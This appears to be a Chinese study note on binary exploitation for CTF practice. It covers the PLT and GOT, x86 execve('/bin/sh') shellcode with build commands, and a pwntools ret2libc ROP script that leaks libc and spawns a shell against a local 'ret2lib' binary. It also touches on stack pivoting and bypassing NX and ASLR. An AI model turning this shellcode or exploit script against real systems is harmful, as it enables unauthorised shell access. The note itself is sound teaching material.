##  一些资源
```
http://shell-storm.org
http://shell-storm.org/shellcode/
https://www.exploit-db.com
https://www.exploit-db.com/shellcode/
```

## plt got .plt.got
![plt->got](basic/2018-11-15-23-44-54.png)
![plt &got](basic/2018-11-15-23-25-29.png)
plt 指向got,采用延时绑定。printf函数中，0x404c010实际内容是下一条指令`push 0`,
而plt.got是已经绑定的， puts函数的0x804bff4是指向实际puts函数的

## shellcode

```x86asm
jmp sh
run:
  pop ebx
  mov BYTE[ebx+7],0 ;append 0 to /bin/sh
  xor eax,eax
  mov al,11
  xor ecx,ecx
  xor edx,edx
  int 0x80
sh:
  call run
  db "/bin/sh"
```

linux 下
- 使用`nasm [sourcecode] -o [target] -felf32`编译一个汇编文件 
- 使用`objcopy -O binary [source.out] [target]`提取 shellcode的。
- 使用`xxd -i [target]`将上述shellcode转为char数组

## ROP
 1. ROPgadget 得到代码片断
 2. cd80c3 就是int0x80;ret,s使用`ROPgadget --binary {binaryname} --opcode cd80c3`来寻找
 3. 动态链接找不到 int 0x80,需要构造rop
```py
from pwn import *
r=process('ret2lib')

puts_got_plt = 0x804a01c
puts_offset =0x00069930

r.recvuntil(':')
r.sendline(str(puts_got_plt))
r.recvuntil(': ')
libc_base=int(r.recvline(keepends=False),16)-puts_offset # get libc base address
print hex(libc_base)
gets_off=0x000690d0             # objdump -D libc |grep gets@
system_off= 0x0003e8f0          # objdump -D libc |grep system@
gets = libc_base+gets_off
system = libc_base+system_off
buf=0x804b000 -30               # cat /proc/702/maps to get writable address 
rop=[
        gets,
        system,
        buf,
        buf
        ]
r.recvuntil(":")
r.sendline('a'*60+flat(rop))
r.sendline("/bin/sh\x00")
r.interactive()

```

### 寄存器赋值
构造栈结构
```
  *(pop eax ;ret)
  3
```
将eax赋值为3
### 栈转移
寻找 leave;ret;指令，然后更改ebp的值即可
leave= mov esp,ebp,pop ebp;
## 漏洞挖掘方法
* 现成CMS注意DIFF
* 根据漏洞PATCH
* 根据漏洞写出EXP，发动攻击 
## 保护
NX:DEP 栈不可执行，可执行不可写 ROP绕过
ALSR: 把每次载入的函数地址随机化，利用puts/printf 等leak出libc的实际地址

## 打开就退出了
用strace分析系统调用
